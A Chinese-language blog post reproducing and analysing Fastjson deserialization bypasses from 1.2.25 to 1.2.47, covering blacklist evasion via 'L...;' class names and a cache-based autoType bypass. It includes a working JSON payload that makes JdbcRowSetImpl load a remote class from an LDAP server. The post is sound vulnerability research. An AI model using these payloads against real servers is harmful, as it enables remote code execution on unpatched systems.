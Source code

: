 ```yaml
---
title: 复现及分析fastjson后续漏洞
date: 2020-12-16 16:02:30
tags: 复现 漏洞分析
---
```




# FastJson1.2.25 修复了1.2.24的漏洞但是有绕过需要 autoType开启


## 环境 在1.2.24的环境下修改pom.xml 版本为1.2.25  

我们再次使用 ldap的payload试试  


![报错没有执行成功](复现及分析fastjson后续漏洞/2020-12-14-15-07-35.png)  


报错 autoType不支持 `com.sun.rowset.JdbcRowSetImpl`  


我们debug到 checkAutoType方法  
checkAutoType机制是从1.2.25开始的  



![开启autoType的话](复现及分析fastjson后续漏洞/2020-12-14-15-20-09.png)  
开启 autoType的话对于不在黑名单中的类名进行绕过  

debug看到的黑名单  

![](复现及分析fastjson后续漏洞/2020-12-14-15-40-29.png)
![LoadClass](复现及分析fastjson后续漏洞/2020-12-14-15-19-28.png)  
可以看到只要 开头是L 结尾是; 就可以绕过
但是需要开启 autoType 才可以  
不然还是会报错不支持  

然后从1.2.42后修复了这个可能存在问题的问题(需要开启autoType)  

## 怎么修复的 (L开头 ;结尾 需要autoType的)  
加入开头和结尾是L和; 那么就将头和尾去掉 再进行黑名单验证  
![](复现及分析fastjson后续漏洞/2020-12-14-16-57-31.png)  


并且将黑名单验证变成了hash的方式 防止安全人员进行研究  

![denyhashcodes](复现及分析fastjson后续漏洞/2020-12-14-16-30-44.png)  



## 对于这个去掉L和；的绕过 就是再加一层就可以了  

`LLcom.sun.rowset.JdbcRowSetImpl;;`  

## 对于上面这个的补丁  
如果开头有两个LL就会抛出异常  



## 网上别人写好的解出来的 黑名单
`https://github.com/LeadroyaL/fastjson-blacklist`  


## Fastjson1.2.45 绕过黑名单 是使用黑名单没有的  

这里需要安装额外的库 mybatis  

```xml
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.5.5</version>
</dependency>
```

触发的话还是需要开启 autotype  
我的fastjson是 1.2.42 ~ 1.2.45版本  
进入checkAutoTye  
![checkAutoType](复现及分析fastjson后续漏洞/2020-12-16-10-46-37.png)  
虽然没有在黑名单 但是没有开启任意类进行反序列化所以不会执行  
如果开启了就跟之前的ldap方式一样的了  

## <1.2.47 无需开启autoType


### payload

```json
{    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:1389/Exploit",
        "autoCommit":true
    }
}
```

这个是利用了 fastjson解析的时候会先把反序列的化的缓存类对象到 mappings  

先发一个 请求  

```json
{
    "@type":"java.lang.Class",
    "val":"com.sun.rowset.JdbcRowSetImpl"
}
```

先进入checkAutoType 因为没有再黑名单可以过去  
![checkAutoType](复现及分析fastjson后续漏洞/2020-12-16-10-55-57.png)  

使用TypeUtils.loadClass 加载类  
![TypeUtils.loadClass](复现及分析fastjson后续漏洞/2020-12-16-11-02-18.png)  


从mappings缓存中获取  
![从mappings缓存中获取](复现及分析fastjson后续漏洞/2020-12-16-11-03-29.png)  
mappings 是在反序列化中处理一些基础类提供效率  
没有添加进去  

![添加到mappings缓存](复现及分析fastjson后续漏洞/2020-12-16-11-40-00.png)  

在 checkAutoType 方法中会有先通过下面方法从mappings中加载  
会先于黑名单过滤  
clazz = TypeUtils.getClassFromMapping(typeName);  

![从mappings中加载](复现及分析fastjson后续漏洞/2020-12-16-11-52-26.png)

可以看到可以成功加载  
![加载成功](复现及分析fastjson后续漏洞/2020-12-16-11-58-16.png)  


后面就是跟之前的一样了  
![lookup](复现及分析fastjson后续漏洞/2020-12-16-11-59-06.png)  

无需autoType因为通过缓存形式绕过了  


